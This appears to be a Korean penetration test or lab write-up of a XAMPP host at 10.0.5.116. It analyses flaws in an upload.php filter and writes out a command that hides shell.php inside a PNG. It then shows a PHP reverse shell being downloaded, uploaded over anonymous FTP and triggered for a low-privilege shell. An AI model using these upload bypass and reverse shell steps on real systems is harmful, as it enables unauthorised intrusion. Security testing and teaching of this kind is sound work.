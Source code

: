 - `upload.php`소스코드 분석

1. POST 요청일 때만 파일 업로드 처리
2. 사용자가 업로드한 원본 파일명 그대로 `basename()`으로 추출하여 저장하는데, 파일명에 특수문자(`../`)가 들어간 경우 `basename()`만으로는 경로 조작을 막기 힘듦 -> 디렉터리 트래버셜 위험 가능성 존재
3. `strtolower()` 함수를 이용해 확장자를 소문자로 변환한 뒤 `$imageFileType` 변수에 저장한 후 확장자 비교하여 php와 관련된 확장자일 경우 업로드 하지 못하게 함
4. `getimagesize()` 함수로 실제 파일 내용을 검사하여 MIME이 `image/jpeg` 또는 `image/png`인 경우에만 업로드 가능하지만 해당 함수는 파일 앞부분(헤더)만 검사하므로, 뒤에 PHP 코드를 숨겨 업로드 가능성 존재함

- 파일 업로드 우회 증명 (`http://10.0.5.116/staging/upload.php`)
  - 파일 이름과 헤더를 조작한 `shell.php` 파일 업로드 성공

```
└─# cat cat.png shell.php > shell.php;.png
```

  - ![alt text](../../images/2025-08-22-보고서/image-13.png)


파일 업로드 취약점으로 공격이 가능하지만 더 간단한 방법인 FTP 파일 업로드를 이용하여 초기 침투를 진행했다.

- 먼저, 구글링으로 `windows-php-reverse-shell`를 찾아 점검자 kail에 다운로드 후 타켓 호스트의 ftp 서버에 업로드했다.

```
└─# wget http://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php last.php


└─# ftp 10.0.5.116
[ . . . ]
Name (10.0.5.116:root): anonymous
331 Password required for anonymous
Password: 
ftp> ls last.php
200 Port command successful
150 Opening data channel for directory list.
-rw-r--r-- 1 ftp ftp           9404 Aug 12 14:57 last.php
```

- 점검자 칼리에서 리버스 쉘을 받을 포트를 열어둔 후 `http://10.0.5.116/staging/last.php` url 접근을 통해 트리거를 발생시켜 `xampp` 유저의 리버스 쉘을 획득하는 데 성공했다.
  - <img src="../../images/2025-08-22-보고서/image-15.png" alt="낮은유저 권한획득" style="zoom: 50%;" />




---

### 권한 상승

- 권한 상승을 시도하기 위해 할 수 있는 모든 것을 시도했지만 성공하지 못했다.
  - wesng, mingw-w64 등 시도해보았는데 실패함..

- `C:\xampp\passwords.txt` 파일 안에 하드코딩 되어있는 계정 정보
  - <img src="../../images/2025-08-22-보고서/image-16.png" alt="alt text" style="zoom:50%;" />
